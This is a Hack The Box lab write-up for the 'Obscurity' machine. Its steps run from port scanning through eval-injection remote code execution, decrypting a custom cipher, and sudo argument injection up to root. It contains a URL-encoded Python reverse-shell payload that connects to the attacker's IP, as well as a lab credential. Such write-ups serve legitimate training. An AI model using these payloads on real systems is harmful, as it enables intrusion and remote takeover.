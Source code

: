 ```yaml
---
title: "Obscurity - HTB Writeup"
header: 
  teaser: /assets/images/2022-04-14-Obscurity-HTB-Writeup/Obscurity-HTB-Image.png
  header: /assets/images/2022-04-14-Obscurity-HTB-Writeup/Obscurity-HTB-Image.png
  og_image: /assets/images/2022-04-14-Obscurity-HTB-Writeup/Obscurity-HTB-Image.png
excerpt: "The /devlop/SuperSecureServer.py endpoint has a Python file for the custom web server. This is supposed to be the web server that is running on port 8080 so if we can find a vulnerability in this we can use it on the live server."
tags: [htb, writeup, obscurity]
---
```

## Obscurity - Methodologies

### Information Gathering

#### Nmap Port Scan

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_102212.png)

#### Nmap Script Scan

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_102232.png)

#### Nmap Full Port Scan

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_102252.png)

#### Nmap Vulnerability Scan

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_102405.png)

### Service Enumeration

#### Nmap HTTP Enumeration

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_102318.png)

#### Nikto Web Scan on Port 8080

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_102427.png)

#### FFuF Web Enumeration on Port 8080

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_102452.png)

#### Web Service Enumeration on Port 8080

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_102631.png)

#### Secret Development Directory - Source Code Leak

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_121858.png)

The /devlop/SuperSecureServer.py endpoint has a Python file for the custom web server. This is supposed to be the web server that is running on port 8080 so if we can find a vulnerability in this we can use it on the live server.

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_121945.png)

### Penetration

#### serveDoc Injection Remote Code Execution

Since the source code is available we can identify possible vulnerabilities in the written code. The custom web server has an unprotected eval function that is used for logging. Whenever a request is made to the server the path is sent through the eval function. A simple proof of concept is shown below on how to inject OS-level commands into this unprotected eval function and achieve remote code execution on the target server.

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_122636.png)

`http://10.10.10.168:8080/';os.system('ping -c 1 10.10.14.2');'`

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_124627.png)

#### User Shell as www-data

By using the link below we are injecting a Python reverse shell one-liner into the unprotected eval function and this is being executed as code on the remote system. Successful exploitation is shown below in the form of a user shell as www-data on the target host.

`http://10.10.10.168:8080/%27;import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.2%22,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(%22/bin/sh%22);'`

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_125236.png)

### Privilege Escalation

#### www-data User Shell Enumeration

Further enumeration of the www-data shell shows that there is more custom-written code in the /home/robert directory. The Robert user appears to be storing their passwords in a custom Python-based encryption system. The source code for this encryption program is world readable allowing us to exfiltrate the program and perform offline enumeration to develop proper exploitation.

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_175651.png)

#### Password Manager - Enumeration

The source code for SuperSecureCrypt.py is shown below. The decrypt functionality is already built into the Python script. The keys for decryption are also world-readable so a malicious Python script is to decrypt the password.

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_175825.png)

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_175809.png)

#### Password Manager - Exploitation

The script to decrypt the passwords is written below. This can be uploaded to the target server with a SimpleHTTP Python module from the attacking server. After copying over the keys and cipher text to the /tmp directory we can run the decrypt functionality stolen out of the initial script. Doing so reveals the credentials below.

`robert:SecThruObsFTW`

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_180611.png)

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_180707.png)

#### Robert User Shell Enumeration

We can su to the Robert user and provide their password for authentication. Enumeration of the user's sudo privileges shows that they can run `BetterSSH.py` as root, which is another custom program in their home folder

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_184729.png)

#### BetterSSH.py Enumeration

Enumeration of BetterSSH.py shows that it is a basic SSH emulator to be used on the local machine. Since we have access to the source code we can find vulnerabilities in the way that it accepts user input. It appears that user input is being taken in and simply appended after a sudo command. Since the -u operator in sudo can be overwritten that means that our input allows us to specify the user that we would like to run under. The program is being run with the sudo binary with no password authentication to run as root, which means the root user is a valid option to specify.

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_184931.png)

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_185000.png)

#### BetterSSH.py Exploitation

Successful exploitation of this unsanitized input is shown below, by prepending `-u root` to commands we can run basic commands as the root user. Reading out root.txt shows that a successful file read as root has been achieved.

![Screenshot](/assets/images/2022-04-14-Obscurity-HTB-Writeup/Screenshot_20220412_185339.png)
